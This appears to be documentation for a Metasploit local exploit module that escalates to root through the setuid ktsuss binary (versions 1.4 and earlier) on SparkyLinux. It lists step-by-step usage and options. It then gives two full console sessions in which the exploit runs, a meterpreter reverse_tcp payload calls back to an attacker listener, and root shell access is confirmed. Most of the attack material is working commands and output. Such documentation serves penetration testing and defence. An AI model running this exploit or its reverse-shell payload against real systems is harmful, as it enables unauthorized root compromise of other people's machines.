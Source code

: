 ## Description

  This module attempts to gain root privileges by exploiting
  a vulnerability in ktsuss versions 1.4 and prior.

  The `ktsuss` executable is setuid `root` and does not drop
  privileges prior to executing user specified commands,
  resulting in command execution with `root` privileges.

  This module has been tested successfully on:


## Vulnerable Application

  This module has been tested successfully on:

  * ktsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)
  * ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/ktsuss_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **KTSUSS_PATH**

  Path to `ktsuss` executable (default: `/usr/bin/ktsuss`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)

  ```
  msf5 > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [+] The target is vulnerable.
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [*] Writing '/tmp/.lBanpIYpAJ60cwt' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.137

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.137:53060) at 2019-08-19 09:18:29 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.137
  OS           : Sparky 5.8 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### tsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)

  ```
  msf5 > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [+] The target is vulnerable.
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [*] Writing '/tmp/.R0aTPpB8aHk' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.167

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.167:44534) at 2019-08-19 09:25:48 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.167
  OS           : Sparky 6 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

